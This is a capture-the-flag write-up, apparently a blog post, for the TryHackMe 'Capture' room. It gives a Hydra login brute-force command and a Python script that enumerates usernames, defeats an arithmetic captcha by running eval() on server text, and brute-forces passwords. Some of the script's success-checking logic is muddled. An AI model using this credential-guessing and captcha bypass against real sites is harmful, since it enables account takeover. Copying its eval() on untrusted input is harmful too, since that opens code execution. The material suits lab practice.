 ```yaml
---
layout: post
title: "Capture"
date: 2023-06-17 
categories: ["Hands-on", "TryHackMe"]
tags: "Python"
---
```


# Capture: Updating
> https://tryhackme.com/room/capture

I downloaded the zip file that contains the login usernames and password that will be used to brurteforce into the login form !

## Nmap
```bash
nmap -sS -Pn [ip]

PORT     STATE SERVICE VERSION
80/tcp   open  http
```

I opened the website and its a login page, tried the usual default usernames and passwords. I noticed that it does say if the username exists or not!


## Hydra

```bash
hydra -L usernames.txt -P passwords.txt "http-post-form://10.10.224.246/login:username=^USER^&password=^PASS^:Error"
```

I get the 'Too many bad login attempts' error message with a mathematical Captcha, for this I need to build a script!.


## Script
For writting the script i used the below walkthrough to guide me in writting and understanding the process:
- [l1asis](https://github.com/l1asis/thm-writeups/blob/main/Capture/Capture.md)
- [BabdCatha](https://github.com/BabdCatha/Capture/blob/main/capture_username.py)
- [Anthony J. Saab](https://blog.anthonyjsaab.com/writeup-for-tryhackmes-capture-room)

Things i kept in mind while trying to build the script in python:
1. Finding the captcha [regex will be used]
2. Solving the captcha [using eval function in python]

### Reading the files
First I need to read the files to retrieve the usernames and passwords. When using the read function its important to add the splitlines. I learned the hard way why its important.
```python
## opening the username.txt to get the users
with open('usernames.txt', 'r') as file:
    usernames = file.read().splitlines()

## opening the passwords.txt to get the password
with open('passwords.txt', 'r') as file:
    passwords = file.read().splitlines()
```


### Requesting 
I made the function 'send_request' to send a request to the server for authentication with the username, password and captcha as None. Captcha is none cause by default there is no captcha in the first few attempts then it starts asking for it. if I do get the captcha then I add it as an argument in the request.
```python
def send_request(username, password, captcha=None):
    data = {
    "username":username,
    "password":password
    }
    # if I get captcha
    if captcha:
        data.update({"captcha":captcha})

    response = requests.post(url=url, data=data)
    return response
```
### Solving Captcha function
This part solves my first concern, the regex expression is used to find captcha string in the html server reponse and the output will be used in the solve captcha functino. The function solve_captcha takes in the reponse, finds the captcha then returns the solved answer to be passed into the request.

```python
# Regular expression to find captcha string in the html server response
regex = re.compile(r"(\d+\s[+*/-]\s\d+)\s\=\s\?")

# solving captcha using eval
def solve_captcha(response):
    captcha = re.findall(regex, response.text)[0]
    return eval(captcha)
```

### Checking if user already exists
I created the get_user function to get the existing user before start bruteforcing the password, this helps by not wasting time. First I sent a request with each user and password as "None" since I only care about the username. I call the solve_captcha function and pass the response as an argument. After solving the captcha I send another request with the same user in loop and check if the user is valid. If the username exists it will return to be used for the next step finding the password.

```python
def get_user():
    for user in usernames:
        response = send_request(user, "None")
        captcha = str(solve_captcha(response))
        data = {
        "username":user,
        "password":'test',
        "captcha":captcha
        }
        response = requests.post(url=url, data=data)
        valid = not re.search(r'The user (.*?) does not exist', str(response.content))
        if valid:
            print(f"[+] Found username : {user}")
            return user
```

### Finding the password!
The Attack function starts by calling the get_user function, After I pass the user as an argument for the send_request function. After solving the captcha I send another request with the valid user but with different password in a loop till the correct password is found!


```python
def attack():
    user = get_user()
    response = send_request(user, "None")
    captcha = str(solve_captcha(response))
    for password in passwords:
        response = send_request(user, password, captcha)
        valid = not re.search(r'Invalid password for user', str(response.content))
        if valid:
            print(f"[+] Found username : {user}")

        # give the previous captcha
        if not "Invalid password" in response.text:
            print(f"[+] Success! Username:{user} Password:{password}")
        # but what if its error? means captcha not working !
        else:
            captcha = solve_captcha(response)
```

## Final words
This was annoying to write specially since i dont fully get the Regular expression module is confusing. Using the search function solved the issue were if not does not exist in content brute force password does not recognize the valid username. The full code can be found in my [gitbook](https://atomic-5.gitbook.io/atoms-handbook/pylix/brute-forcing-login-with-mathematical-captcha)
